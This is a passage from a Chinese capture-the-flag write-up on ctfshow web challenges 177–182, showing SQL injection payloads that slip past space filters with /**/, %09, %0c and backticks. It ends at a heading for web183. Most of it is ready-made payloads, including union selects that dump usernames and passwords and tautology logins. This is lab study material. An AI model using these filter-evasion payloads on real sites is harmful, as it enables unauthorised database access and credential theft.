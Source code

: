 反复测试，过滤了空格。

`1'--+` 这个不可以 ，`1'%23` 可以。

过滤空格可以使用`/**/` 绕过

```
1'/**/or/**/1%23

1'/**/union/**/select/**/id,username,password/**/from/**/ctfshow_user/**/where/**/username='flag'%23

1'/**/union/**/select/**/id,username,password/**/from`ctfshow_user`where`username`='flag'%23
```

表名，列名可以用反引号。

## web178~%09绕过空格

过滤了空格和 `*`

可以用`tab` 代替空格，也就是`%09`

```
1'%09union%09select%09id,username,password%09from%09ctfshow_user%09where%09username='flag'%23
```

一把梭

```
1'or'1'%23
```

## web179~%0c绕过空格

经测试，过滤了空格、`%09`、`/**/` 

可以用 `%0c` 绕过。

```
1'%0cunion%0cselect%0cid,username,password%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'%23
```

还可以一把梭

```
1'or'1'%23
```

## web180-182~直接查id

把所有能用的空格都过滤了。

换其他姿势，直接查 id

```
-1'or(id=26)and'1
```

## web183~where正则匹配
